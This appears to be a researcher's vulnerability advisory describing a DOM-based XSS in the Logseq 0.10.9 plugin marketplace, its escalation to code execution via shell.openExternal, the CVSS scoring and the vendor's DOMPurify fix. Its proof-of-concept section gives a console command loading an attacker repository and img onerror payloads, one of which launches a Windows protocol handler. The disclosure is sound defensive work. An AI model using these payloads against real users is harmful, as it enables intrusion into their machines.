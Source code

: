 # Logseq DOM-based XSS Leading to RCE

## Vulnerability Summary

During security testing of the **Logseq** (Desktop/Android) application [[1]](#references)[[2]](#references), version **0.10.9**, a critical-severity **DOM-based Cross-Site Scripting (XSS)** vulnerability [[3]](#references) was identified in the `marketplace.html` endpoint. An attacker can host a malicious Logseq plugin on GitHub with JavaScript embedded in the plugin's `README.md`. When this README is rendered inside the Logseq plugin marketplace, unsanitized input from the document location is directly injected into `innerHTML` which results in arbitrary JavaScript execution. Furthermore, the absence of an allowlist for `shell.openExternal` (exposed via `window.cljs`) allows this DOM-based XSS to escalate to **Remote Code Execution (RCE)** [[4]](#references) by abusing system-level protocol handlers.

### Technical Details

#### DOM-based Cross-Site Scripting (XSS) in the marketplace for plugins

- **File**: `resources/app/marketplace.html`
- **Line**: [82](https://github.com/logseq/logseq/blob/2d8e80954e5de53d62ff4713de0289e9a21c039d/resources/marketplace.html#L82)
- **Description**: Unsanitized input from the document's location (URL parameters) is directly injected into the DOM using `innerHTML`, which can lead to DOM-based XSS (DOMXSS). The rendered `README.md` content from an attacker-controlled GitHub repository is parsed and inserted into the page without proper sanitization.
- **Vulnerability Explanation**: The application parses the plugin's Github repository README content using `marked.parse()` and immediately injects it into the DOM via `innerHTML` (`setContent(content)`), without applying any **HTML sanitization**. If an attacker embeds arbitrary JavaScript into the README file of their plugin Github repository, the code will be executed. This attack is **DOM-based** because the payload is executed client-side and relies on dynamic manipulation of the `repo` parameter in the URL.

```js
. . .
<script>
  ;(async function () {
    const app = document.getElementById('app')
    const url = new URL(location.href)
    const setMsg = (msg) => app.innerHTML = `<strong>${msg}</strong>`
    const repo = url.searchParams.get('repo')
    if (!repo) {
      return setMsg('Repo parameter not found!')
    }

    const setContent = (content) => app.innerHTML = `<main class="markdown-body">${content}</main>`
    const endpoint = (repo, branch, file) => `https://raw.githubusercontent.com/${repo}/${branch}/${file}`

    . . .

    content = marked.parse(content).replace('src="./', `src="${fixLink('')}`)
    setContent(content)
  }())
</script>
. . .
```

#### Lack of Protocol Validation in Electron's Window Logic

- **File**: `src/electron/electron/window.cljs`
- **Line**: [133](https://github.com/logseq/logseq/blob/2d8e80954e5de53d62ff4713de0289e9a21c039d/src/electron/electron/window.cljs#L133)
- **Description**: The function `open-default-app!` calls `shell.openExternal` to open external URLs, but only filters for a basic set of protocols (`http`, `https`, `mailto`) in a limited conditional. There is no comprehensive allowlist to prevent invoking custom or system-level protocol handlers, leaving the application vulnerable to abuse.
- **Vulnerability Explanation**: Electron's `shell.openExternal()` has the ability to invoke OS-level protocol handlers. Since there is no strict allowlist enforced here, an attacker who gains JavaScript execution via the aforementioned DOM-based XSS can craft a payload that performs **Remote Code Execution** (RCE) via system-level protocols.

```clojure
. . .
(defn- open-default-app!
  [url default-open]
  (let [URL (.-URL URL)
        parsed-url (try (URL. url) (catch :default _ nil))]
    (if (and parsed-url (contains? #{"https:" "http:" "mailto:"} (.-protocol parsed-url)))
      (.openExternal shell url)
      (when default-open (default-open url)))))
. . .
```

### CVSS v3.1 Metrics

| Metric      | Value |
|-------------|-------|
| Base Score  | 9.6 (**Critical**) |
| Vector      | `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H` |

### Weakness Enumeration

| CWE ID | Description |
|--------|-------------|
| [CWE-79](http://cwe.mitre.org/data/definitions/79.html) | Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') |

---
## Proof of Concept (PoC) Exploit

> - Logseq Desktop/Android application version 0.10.9 was tested on Microsoft Windows 10 and Microsoft Windows 11.
> - For demonstration purposes, **Developer Mode** must be enabled. To do so, open the application, click on `More ( ... icon)`, select `Settings`, go to `Advanced` and enable `Developer mode`.
> - PoC Github repository: https://github.com/martinkubecka/Logseq-XSS-RCE-PoC
> - PoC video demonstration: https://www.youtube.com/watch?v=cBP4TA-BioY

### Steps to Reproduce

1. Launch the Logseq application.
2. In the upper-right corner, click on `More ( ... icon)`, choose `Plugins`, then open the `Marketplace`.
3. Click on any available plugin, for example: `Journals Calendar`.
4. Press `Ctrl + Shift + I` to open **DevTools** and navigate to the **Console** tab.
5. Paste and execute the following code to load the malicious README from an attacker-controlled GitHub repository.

```js
document.querySelector("iframe.lsp-frame-readme").src = "lsp://logseq.com/marketplace.html?repo=martinkubecka/Logseq-Testing";
```

After executing the command above:

The `iframe.lsp-frame-readme` source is changed to load the README file from the `martinkubecka/Logseq-XSS-RCE-PoC` GitHub repository.
This README contains a benign proof-of-concept demonstrating:
- A basic XSS payload: `<img src=x onerror="alert('XSS')">`.
- A chained XSS to RCE payload using a demonstration system protocol handler, resulting in the calculator app being executed on Windows system: `<img src=x onerror="window.location='ms-calculator://'">`.

> *This PoC demonstrates on a benign example the critical impact of unsanitized user input combined with insufficient protocol filtering.*

## Recommended Mitigations

To address the DOM-based XSS and RCE risks stemming from the combination of unsanitized HTML rendering and protocol misuse, the following mitigations are recommended:
1. **Sanitize rendered plugin README content in `marketplace.html`**: Input from the repo query parameter is fetched from GitHub and injected directly into the DOM via innerHTML after being parsed by `marked.parse()`. This content should be sanitized before being inserted.
2. **Implement protocol allowlisting in `window.cljs`**: Introduce a strict allowlist of supported protocols and explicitly block others, especially system-level handlers unless explicitly needed for functionality.

## Vendor Response & Patch Information

The Logseq development team responded promptly to the reported **DOM-based XSS** vulnerability by integrating the **DOMPurify** [[5]](#references) library to sanitize plugin README content rendered in the marketplace. This change mitigates the risk of arbitrary JavaScript execution originating from attacker-controlled plugin metadata.

The fix was incorporated in the release based on the [Logseq DB branch](https://github.com/logseq/logseq/tree/feat/db). Relevant code changes include:
- Addition of the `dompurify` library to the build process in `gulpfile.js`.
- Inclusion of `purify.js` in the HTML rendering logic in `resources/marketplace.html`.
- Sanitization of parsed README content using `DOMPurify.sanitize()` before injection into the DOM.
- A minor update in `plugins.cljs` to ensure correct iframe source resolution.

The patch can be reviewed in this GitHub [commit](https://github.com/logseq/logseq/commit/4cdf49aedd8de073015b6945a529399c3bfa109a#diff-25789e3ba4c2adf4a68996260eb693a441b4a834c38b76167a120f0b51b969f7R72-R74).

While the **DOM-based XSS** was addressed effectively, the second issue, **Lack of Protocol Validation in Electron's Window Logic**, remained unresolved at the time of patch confirmation. On April 29th, 2025, this concern was explicitly communicated to the Logseq support team along with a recommendation to assign CVE ID(s) to both vulnerabilities.

Although system-level protocol handlers are not implemented by the Logseq application itself, the lack of strict validation in its `shell.openExternal` usage enables attackers to exploit them [[6]](#references). Electron's `shell.openExternal()` API delegates URL handling to the underlying operating system [[7]](#references). Once an attacker achieves JavaScript execution, they can invoke handlers such as `search-ms:`, `ms-excel:`, or `ms-word:` to execute arbitrary commands or launch native applications [[8]](#references). For instance, abuse of the `search-ms`: handler has enabled attackers to remotely execute files from SMB shares via malicious search window shortcuts [[9]]. The infamous Follina vulnerability exploited the `ms-msdt:` protocol to achieve code execution through a crafted Office document [[10]](#references). Likewise, protocols like `ms-excel:` and `ms-word:` have been weaponized in phishing campaigns to silently launch Office apps with remote templates [[11]](#references). Without proper validation and the use of security best practices, even Electron applications that appear sandboxed can be exploited to interact with the underlying operating system in unintended and potentially high-risk ways.

## References

- [1] https://logseq.com/
- [2] https://github.com/logseq/logseq
- [3] https://portswigger.net/web-security/cross-site-scripting/dom-based
- [4] https://www.splunk.com/en_us/blog/learn/rce-remote-code-execution.html
- [5] https://github.com/cure53/DOMPurify
- [6] https://benjamin-altpeter.de/shell-openexternal-dangers/ 
- [7] https://www.electronjs.org/docs/latest/tutorial/security#15-do-not-use-shellopenexternal-with-untrusted-content
- [8] https://positive.security/blog/url-open-rce
- [9] https://www.bleepingcomputer.com/news/security/new-windows-search-zero-day-added-to-microsoft-protocol-nightmare/
- [10] https://www.splunk.com/en_us/blog/security/follina-for-protocol-handlers.html
- [11] https://blog.syss.com/posts/abusing-ms-office-protos/
